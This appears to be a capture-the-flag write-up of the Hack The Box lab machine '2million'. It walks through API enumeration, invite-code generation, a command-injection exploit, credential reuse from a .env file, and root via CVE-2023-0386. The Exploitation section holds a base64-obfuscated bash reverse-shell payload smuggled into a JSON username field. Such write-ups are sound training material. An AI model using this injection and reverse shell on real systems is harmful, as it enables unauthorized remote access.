 ## IP
Target: 2million.htb

## OS / Technology
- Ubuntu

## Users / Passwords
- TBD during exploitation

## Services
- **80 HTTP**
  - Hostname: `2million.htb`
  - Source code: nothing interesting
  - Fuzzing: no results
  - Login page: tested SQL injection on email/password, not injectable
  - `/invite` page shows message: "feel free to hack your way in"
  - JavaScript contained obfuscated code → deobfuscated to show API endpoints
- **22 SSH**
  - Open, but no creds initially

## Nmap
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
```

## Invite Code Enumeration
Deobfuscated JS revealed `/api/v1/invite/verify` and `/api/v1/invite/how/to/generate`.  
- First request:
```bash
curl -s -X POST http://2million.htb/api/v1/invite/how/to/generate -H 'X-Requested-With: XMLHttpRequest'
```
Response (ROT13 encoded). After decoding, pointed to `/api/v1/invite/generate`.

- Second request:
```bash
curl -s -X POST http://2million.htb/api/v1/invite/generate -H 'X-Requested-With: XMLHttpRequest'
```
Returned base64 invite code. Decoding gave:
```
EC73C-9F5K5-56ET4-WC3M5
```

- Used invite code to register an account and login.

## API Discovery
Using curl fuzzing discovered the following API structure:
```
/api/v1/user
  - /invite/* endpoints
  - /user/auth
  - /user/vpn/* endpoints
  - register, login

/api/v1/admin
  - GET /auth
  - POST /vpn/generate
  - PUT /settings/update
```

## Exploitation
- Crafted malicious POST request against `/api/v1/admin/vpn/generate`:
```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate   --cookie "PHPSESSID=..."   -H "Content-Type: application/json"   -d '{"username":"yanser;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi43LzEyMzQgMD4mMQ== | base64 -d | bash;"}'
```
- Got reverse shell as `www-data`.

## Post-Exploitation
- Found `.env` file containing MySQL credentials:
```
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

- Used creds to escalate → shell as **admin**.  
- Retrieved **user flag**.

## Privilege Escalation
- Found email mentioning kernel CVE in OverlayFS/FUSE.  
- Confirmed vulnerable kernel version.  
- Used [CVE-2023-0386 OverlayFS exploit](https://github.com/puckiestyle/CVE-2023-0386).  
- Compiled and executed, gaining root.
